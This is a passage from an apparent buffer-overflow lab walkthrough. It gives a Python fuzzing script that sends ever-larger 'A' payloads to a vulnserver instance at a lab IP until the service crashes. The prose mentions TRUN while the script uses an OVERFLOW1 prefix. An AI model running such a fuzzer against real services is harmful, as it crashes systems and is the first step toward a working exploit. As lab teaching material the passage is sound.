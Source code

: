 
Fuzzing is just like spiking, but now that we know that this server is vulnerable to `TRUN` and not `STATS` we will use this python3 script for it :

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.239.130"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

The purpose of this script is so far there is connection to our target which is specified with the `ip` and `port` , it will keep sending buffer, we are trying to narrow down where things are breaking and it byte size

- Save your script with `.py` and make sure you have immunity debugger and vulnserver ready
- Also make sure you click the `run` button first on immunity debugger before moving on

![](https://i.imgur.com/80EQ0QI.png)


